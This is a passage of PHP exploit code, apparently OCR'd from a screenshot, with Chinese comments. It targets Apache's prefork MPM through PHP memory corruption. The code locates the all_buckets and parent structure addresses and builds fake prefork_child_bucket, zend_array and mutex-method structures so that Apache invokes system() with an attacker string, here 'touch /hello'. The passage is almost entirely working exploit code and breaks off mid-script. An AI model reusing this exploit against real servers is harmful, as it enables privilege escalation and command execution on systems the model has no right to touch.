         //在我的环境中，有多个地址满足是all_buckets 地址的要求，但是只有第3个才是正确的
        if( count($result)!= 4 ){
            return 0;
        }
        else{
            return $result[2];
        }
    }

    echo "PID: ".getmypid()."\n";

    $parent_struct_addr = locate_self_parent_struct_addr();
    if($parent_struct_addr == 0){
        die("get self parent struct addr error\n");
    }
    echo "self parent struct addr:0x".dechex($parent_struct_addr)."\n";

    $parent_arr_addr = locate_parent_arr_addr();
    if($parent_arr_addr){
        echo "parent arr addr:0x".dechex($parent_arr_addr)."\n";
    }

    $all_buckets_addr = locate_all_buckets_addr();
    if($all_buckets_addr == 0){
        die("get all_buckets addr error\n");
    }
    echo "all_buckets addr:0x".dechex($all_buckets_addr)."\n";

    $evil_parent_start_addr = $parent_arr_addr + 0x24 * 10;//(我这里的parent 就是 prefork_child_bucket结构，0x24是每个prefork_child_bucket的大小，10参考http-mpm.conf中prefork的MaxSpareServers)

    echo "evil prefork_child_bucket start addr:0x".dechex($evil_parent_start_addr)."\n";

    //我们需要将prefork_child_bucket与zend_object结合，使其包含zend_object 的 properties字段,因此prefork_child_bucket的"大小"是40+16字节
    $evil_parent_end_addr = $evil_parent_start_addr + 40+16;
    echo "evil prefork_child_bucket end addr:0x".dechex($evil_parent_end_addr)."\n";

    //将apr_proc_mutex_t结构与zend_array结构结合为一个结构
    $evil_zend_array_start_addr = $evil_parent_end_addr;
    echo "evil zend_array start addr:0x".dechex($evil_zend_array_start_addr)."\n";

    $evil_zend_array_end_addr = $evil_zend_array_start_addr + 0x38;
    echo "evil zend_array end addr:0x".dechex($evil_zend_array_end_addr)."\n";

    //apr_proc_mutex_unix_lock_methods_t结构
    $evil_mutex_methods_start_addr = $evil_zend_array_end_addr;
    $evil_mutex_methods_end_addr = $evil_mutex_methods_start_addr + 0x50;

    echo "evil mutex_methods start addr:0x".dechex($evil_mutex_methods_start_addr)."\n";
    echo "evil mutex_methods end addr:0x".dechex($evil_mutex_methods_end_addr)."\n";

    //system()中的字符串

    $evil_string = "touch /hello";
    $evil_string_len = strlen($evil_string)+1;//\0结尾

